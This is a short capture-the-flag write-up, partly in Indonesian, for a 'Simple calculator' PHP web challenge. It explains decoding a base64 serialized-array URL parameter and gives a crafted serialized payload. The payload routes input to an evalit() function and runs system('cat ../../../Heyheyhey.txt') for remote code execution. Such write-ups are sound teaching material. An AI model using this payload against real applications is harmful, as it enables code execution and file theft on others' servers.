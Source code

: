 **Title:** Simple calculator    <br>
**Desc:** Hai, cek web baru keren buatanku dan temukan hal menarik di root.    <br>
**Target:** http://103.185.38.238:17227/    <br>
**Tools:** https://www.base64decode.org/ & https://www.unserialize.com/
**Steps:**
  1. The app serialized the user input and encoded it to base64 as parameter.
  2. Enter an arbitrary inputs and copy the base64 encoded url and decode it, thus we get serialized array like this ``a:3:{i:0;s:3:"sum";i:1;s:1:"2";i:2;s:1:"2";}``
  3. Base on the source code, we can exploit the serialized input to evalit() function which returns the result of the eval of its arguments.
  4. Payload: ``a:2:{i:0;s:6:"evalit";i:1;s:37:"system('cat ../../../Heyheyhey.txt');";}`` > decode to base64 > paste as input on URL > RCE
